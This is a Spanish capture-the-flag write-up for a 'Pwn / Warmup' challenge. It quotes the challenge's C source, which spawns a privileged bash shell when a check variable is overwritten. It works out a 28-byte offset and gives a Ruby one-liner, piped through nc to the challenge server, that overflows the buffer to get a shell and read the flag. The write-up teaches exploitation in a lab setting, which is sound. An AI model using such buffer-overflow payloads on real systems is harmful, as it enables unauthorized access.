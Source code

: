# Pwn / Warmup

En el codigo fuente vemos que si sobreescribimos la variable check a  0x54524543 obtendremos una shell interactiva:

``` C
if (check == 0x54524543)
    {
      printf("Yeah!! You win!\n");
      setreuid(geteuid(), geteuid());  
      system("/bin/bash");
```

Por el buffer de 20 bytes y la respuesta que nos da encontramos que el desplazamiento es de 28 bytes y a partir de entonces se comienza a almacenar en check:

``` bash
 ruby -e 'print "A" * 30' | Descargas/Retos/Warmup/reto 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0x12004141

Clooosse!
```

El reto era sencillo asi que no hice un script en python, con este oneliner de ruby ya obtenia la shell y solo bastaba con hacer 'cat flag.txt':

``` bash
 (ruby -e 'print "A"*28 + "\x43\x45\x52\x54" + "\n"';cat)  | nc warmup.ctf.cert.unlp.edu.ar 35000
```

`flag{W3lc0me_To_M3t4R3d-2024!}`


